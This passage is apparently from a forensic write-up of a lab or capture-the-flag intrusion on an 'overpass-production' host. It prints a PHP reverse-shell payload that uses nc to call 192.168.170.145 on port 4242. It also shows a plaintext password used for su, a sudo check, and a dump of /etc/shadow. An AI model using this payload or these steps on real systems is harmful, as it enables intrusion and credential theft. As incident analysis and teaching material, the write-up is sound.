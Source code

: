 The file the TA uploaded was named `payload.php`, with the following content:

```php
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```

The TA requested a listing of uploads by submitting an HTTP GET request to the `/development/uploads` URI and then executed their PHP payload by submitting an HTTP GET request to the `/development/uploads/payload.php` URI, presumably by clicking on this link from the uploads listing.

---

### Command & Control

With the payload executed, the TA assumed control of the target machine via a TCP reverse shell to their port 4242. The TA confirmed their access as the `www-data` user account and then read the contents of the `/var/www/html/development/uploads/.overpass` file.

```bash
www-data@overpass-production:/var/www/html/development/uploads$ cat .overpass

,LQ?2>6QiQ$JDE6>Q[QA2DDQiQH96?6G6C?@E62CE:?DE2?EQN.
```

The TA elevated their privileges to the `james` account, revealing the credential `james`:`whenevernoteartinstant`.

```bash
www-data@overpass-production:/var/www/html/development/uploads$ su james
Password: whenevernoteartinstant
```

With access to the `james` account, the TA checked which commands they could execute with elevated privileges and found that they could run any.

```bash
james@overpass-production:~$ sudo -l
[sudo] password for james: whenevernoteartinstant

Matching Defaults entries for james on overpass-production:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin\:/bin:/snap/bin

User james may run the following commands on overpass-production:
    (ALL : ALL) ALL
```

The TA then dumped the user account hashes from `/etc/shadow`, presumably for offline cracking.

```bash
james@overpass-production:~$ sudo cat /etc/shadow

root:*:18295:0:99999:7:::
daemon:*:18295:0:99999:7:::
bin:*:18295:0:99999:7:::
sys:*:18295:0:99999:7:::
sync:*:18295:0:99999:7:::
games:*:18295:0:99999:7:::
man:*:18295:0:99999:7:::
lp:*:18295:0:99999:7:::
mail:*:18295:0:99999:7:::
news:*:18295:0:99999:7:::
uucp:*:18295:0:99999:7:::
proxy:*:18295:0:99999:7:::
www-data:*:18295:0:99999:7:::
backup:*:18295:0:99999:7:::
list:*:18295:0:99999:7:::
irc:*:18295:0:99999:7:::
gnats:*:18295:0:99999:7:::
nobody:*:18295:0:99999:7:::
```